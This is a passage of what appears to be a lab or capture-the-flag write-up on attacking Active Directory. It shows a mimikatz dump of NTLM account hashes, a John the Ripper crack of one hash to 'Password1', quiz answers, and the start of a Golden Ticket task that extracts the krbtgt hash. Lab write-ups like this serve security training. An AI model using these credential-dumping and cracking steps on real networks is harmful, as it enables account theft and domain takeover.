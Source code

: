 ```diff
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111)
User : sshd
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000003e8 (1000)
User : DOMAIN-CONTROLL$
LM   :
NTLM : e733658bbffc4f044cc1e1b86d4fe31d

RID  : 00000455 (1109)
User : DESKTOP-2$
LM   :
NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

RID  : 00000456 (1110)
User : DESKTOP-1$
LM   :
NTLM : 7d33346eeb11a4f12a6c201faaa0d89a

```
1. what is the Machine1 Password?

```
$ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash_Machine1.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (?)
1g 0:00:00:00 DONE (2021-07-22 04:34) 7.692g/s 28061p/s 28061c/s 28061C/s girls..654123
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
:arrow_right: `Password1`

2. What is the Machine2 Hash?

:arrow_right: `c39f2beb3d2ec06a62cb887fb391dee0`


Task5:  Golden Ticket Attacks w/ mimikatz
------------------------------------------

```
mimikatz # privilege::debug 
Privilege '20' OK 
                  
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf                   
    LM   :                                                    
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf                 
```